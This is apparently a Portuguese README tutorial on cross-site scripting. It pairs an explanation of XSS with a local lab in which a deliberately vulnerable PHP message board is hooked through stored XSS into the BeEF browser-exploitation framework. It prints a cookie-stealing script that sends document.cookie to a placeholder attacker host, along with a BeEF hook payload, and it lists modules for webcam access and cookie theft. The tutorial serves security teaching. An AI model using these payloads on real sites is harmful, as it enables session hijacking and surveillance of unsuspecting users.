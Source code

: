 # TUTORIAL XSS - cross site scripting

## O que é o XSS?

O cross site scripting (XSS) é um ataque de injeção de código que permite que um invasor execute JavaScript mal-intencionado no navegador de outro usuário.

O atacante não direciona diretamente a vítima. Em vez disso, ele explora uma vulnerabilidade em um site que a vítima visita, a fim de obter o site para entregar o JavaScript malicioso para ele. Para o navegador da vítima, o JavaScript malicioso parece ser uma parte legítima do site, e o site agiu como um cúmplice não intencional para o invasor.

## Como o JavaScript malicioso é injetado

A única maneira de o invasor executar o JavaScript mal-intencionado no navegador da vítima é injetá-lo em uma das páginas que a vítima baixa do site. Isso pode acontecer se o site incluir diretamente a entrada do usuário em suas páginas, porque o invasor pode inserir uma sequência que será tratada como código pelo navegador da vítima.

<!-- No exemplo abaixo, um script simples do lado do servidor é usado para exibir o comentário mais recente em um site:

```js
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
``` -->
### Atores em um ataque XSS
Antes de descrevermos em detalhes como um ataque XSS funciona, precisamos definir os atores envolvidos em um ataque XSS. Em geral, um ataque XSS envolve três atores: o site , a vítima e o invasor .

O site serve páginas HTML para usuários que as solicitam. Nos nossos exemplos, está localizado em http://website/.

O banco de dados do site é um banco de dados que armazena parte da entrada do usuário incluída nas páginas do site.

A **vítima** é um usuário normal do site que solicita páginas a partir dele usando seu navegador.

O **invasor** é um usuário mal-intencionado do site que pretende lançar um ataque à vítima explorando uma vulnerabilidade de XSS no site.

O **servidor do invasor** é um servidor da Web controlado pelo invasor com o único propósito de roubar as informações confidenciais da vítima. Nos nossos exemplos, está localizado em http://attacker/.

### Um exemplo de cenário de ataque

Neste exemplo, vamos assumir que o objetivo final do atacante é roubar os cookies da vítima explorando uma vulnerabilidade do XSS no site. Isso pode ser feito com o navegador da vítima analisando o seguinte código HTML:
```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
Esse script navega no navegador do usuário para um URL diferente, acionando uma solicitação HTTP para o servidor do invasor. O URL inclui os cookies da vítima como um parâmetro de consulta, que o invasor pode extrair da solicitação quando chega ao seu servidor. Uma vez que o invasor tenha adquirido os cookies, ele pode usá-los para representar a vítima e lançar novos ataques.

A partir de agora, o código HTML acima será referido como a cadeia maliciosa ou o script malicioso . É importante notar que a string em si é apenas maliciosa se for analisada como HTML no navegador da vítima, o que só pode acontecer como resultado de uma vulnerabilidade do XSS no site.

### Como funciona o ataque de exemplo
O diagrama abaixo ilustra como esse o exemplo de ataque pode ser executado por um invasor:

![Script Server](https://excess-xss.com/reflected-xss.png)

* O atacante cria uma URL contendo uma string maliciosa e a envia para a vítima.

* A vítima é enganada pelo atacante para solicitar o URL do site.

* O site inclui a sequência maliciosa do URL na resposta.

* O navegador da vítima executa o script malicioso dentro da resposta, enviando os cookies da vítima para o servidor do invasor.

![BeEF Logo](https://github.com/beefproject/beef/wiki/Images/logo.png)


# Visão geral BeEF Framework
O Browser Exploitation Framework (BeEF) é uma poderosa ferramenta de segurança profissional. O BeEF é uma técnica pioneira que fornece ao testador de penetração experiente vetores práticos de ataque do lado do cliente. Ao contrário de outras estruturas de segurança, o BeEF se concentra em aproveitar as vulnerabilidades do navegador para avaliar a postura de segurança de um alvo. Este projeto é desenvolvido exclusivamente para pesquisa legal e testes de penetração.

O BeEF conecta um ou mais navegadores da Web como cabeças de ponte para o lançamento de módulos de comando direcionados. Cada navegador provavelmente está em um contexto de segurança diferente e cada contexto pode fornecer um conjunto de vetores de ataque exclusivos. A estrutura permite que o testador de penetração selecione módulos específicos (em tempo real) para direcionar cada navegador e, portanto, cada contexto.

O framework contém vários módulos de comando que empregam a API simples e poderosa do BeEF. Essa API está no centro da eficácia e eficiência da estrutura. Ele abstrai a complexidade e facilita o desenvolvimento rápido de módulos personalizados.

# Prática

## Configuração de Ambiente 

### Primeiro instale o BeEF

[Guia de Instalação](https://github.com/beefproject/beef/wiki/Installation) 

### Em seguinda, caso não tenha instale o Servidor Web 

No nosso caso podemos usar o Xampp. 
Pois iremos utilizar o php, apache e o banco de dados.

[Instalação Xampp Ubuntu](http://www.codebind.com/linux-tutorials/install-xampp-ubuntu-16-04/)

#### Configurar o banco

Ao instalar o xamp ele traz a ferramenta phpmyadmin nela:
* Crie o banco com o nome "messeger"
* Importe o arquivo messeger.sql disponivel no projeto que será baixado e servirá para criar a tabela.


### Baixe este projeto

* Edite o arquivo db.php no projeto com os dados (usuario e senha) do seu banco.

* Após editar o arquivo, coloque na pasta (/opt/lampp/htdocs)

* Verifique se o servidor tá rodando e acesse http://localhost/messager/


Se tudo tive ocorrido bem está é a página que vai mostrar

![formulario](img/form.png)



## O Ataque

Para iniciar, iremos acessar a página onde o beef foi baixado ou clonado e lá iniciar o framework com o comando especificado abaixo:

``` js
./beef
```

Então preencha o formulário da tela anterior com um email qualquer text@text e no campo mensagem digite: 

``` js
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Link encontrado após iniciar a aplicação
![beef](img/beef.png)

    Então esse script irá para o banco e será armazenado.

Após isso acessaremos o painel do beef com o link que se encontra na imagem

``` js
    http://127.0.0.1:3000/ui/panel
```
Então acessem a o painel com o usuário padrão *beef* e senha *beef* e então irá aparecer a página inicial da ferramenta.

![beef inicial](img/beefinicio.png)

Para saber se o site foi infectado, acesse 
http://localhost/messager/mensagens.php

![Tela de retorno das mensagens](img/mensagens.png)

Este é o resultado, está sendo mostrado a lista dos email e mensagens cadastrados.
Se você notar, existe um campo mensagem que está vázio, este é o campo que foi enviado o script malicioso.
Especionado a página, vc encontra o script que foi enviado anteriormente.

Acessando o panel do beef novamente você irá notar que depois de executar a listagem das mensagens o script ativou o monitoriamento na ferramenta e o site está infectado.

![beef infectado](img/beefinfectado.png)

Após isso, clique no ip da máquina que deseja monitorar e então você pode acessar a aba comandos no menu vertical, no modulo browser existe diversos comandos para serem usados no site infectado como: acessar a webcam, obter cookies, obter links como também mudar links.

Existe uma infinidade de opções. Fique a vontade para usar.



# Referências   

https://excess-xss.com/#xss-attacks

https://github.com/beefproject/beef/wiki